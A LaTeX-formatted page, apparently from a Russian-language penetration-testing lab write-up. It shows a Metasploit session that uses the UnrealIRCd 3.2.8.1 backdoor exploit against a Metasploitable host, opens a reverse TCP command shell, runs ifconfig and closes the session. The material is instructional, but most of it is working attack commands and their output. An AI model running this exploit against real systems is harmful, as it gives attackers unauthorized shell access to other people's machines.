 \documentclass[10pt,a4paper,titlepage]{article}
\begin{document}
Строчки ниже показываеют использование эксплоита, задание адреса хоста, и его выполнение, в результате которого мы получаем доступ к консоли. Затем выполняем команду ifconfig, чтобы убедиться в том, что доступ осуществлен корректно и закрываем сессию.
\begin{verbatim}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.226.134
RHOST => 192.168.226.134
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.226.135:4444 
[*] Connected to 192.168.226.134:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 5oCFjODezSVzsvxg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "5oCFjODezSVzsvxg\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.226.135:4444 -> 192.168.226.134:40593) at 2016-06-15 12:58:51 -0400

ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:b8:13:c4  
          inet addr:192.168.226.134  Bcast:192.168.226.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:feb8:13c4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:30571 errors:0 dropped:0 overruns:0 frame:0
          TX packets:25645 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1988086 (1.8 MB)  TX bytes:1538678 (1.4 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:3752 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3752 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1815909 (1.7 MB)  TX bytes:1815909 (1.7 MB)

^C
Abort session 1? [y/N]  y

[*] 192.168.226.134 - Command shell session 1 closed.  Reason: User exit
\end{verbatim}
\end{document}
